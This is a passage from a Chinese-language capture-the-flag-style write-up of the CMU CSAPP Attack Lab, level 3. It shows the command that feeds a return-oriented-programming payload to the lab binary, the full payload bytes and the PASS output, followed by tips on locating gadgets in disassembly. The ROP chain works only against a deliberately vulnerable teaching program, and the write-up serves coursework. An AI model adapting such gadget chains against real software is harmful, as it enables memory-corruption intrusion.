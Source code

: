 ```
[root@MiWiFi-R4A-srv target1]# ./hex2raw < rtarget.l5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 63 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

注意：

1.0x90对应于”no op“操作，所以如果我们看到这样的汇编码，又想调用”89 ce“时放心使用即可。

```
0000000000401a11 <addval_436>:
  401a11:  8d 87 89 ce 90 90      lea    -0x6f6f3177(%rdi),%eax
  401a17:  c3                     retq
```

2.0xc3对应返回值之前有讲过

3.单个字节不被看作操作，会被自动忽略，比如下面的代码，我们想要”89 d1“，由于和”c3“只间隔一个字节，中间的”91“会被忽略，即可以截取该代码段运行。

```
0000000000401a6e <setval_167>:
  401a6e:  c7 07 89 d1 91 c3      movl   $0xc391d189,(%rdi)
  401a74:  c3                     retq
```

参考：

[1]:[Assembly Language & Computer Architecture Lecture (CS 301) (uaf.edu)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_08_stack.html)

[2]:[《深入理解计算机系统/CSAPP》Attack Lab - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/57771748)

[3]:[CMU 15-213 Lab3 Attack Lab | Doraemonzzz](http://doraemonzzz.com/2020/06/15/CMU%2015-213%20Lab3%20Attack%20Lab/#4)

[4]:[objdump反汇编对于小白的一个坑 | DOA's Blog (floral.github.io)](https://floral.github.io/2021/04/21/objdump%E5%8F%8D%E6%B1%87%E7%BC%96%E5%AF%B9%E4%BA%8E%E5%B0%8F%E7%99%BD%E7%9A%84%E4%B8%80%E4%B8%AA%E5%9D%91/)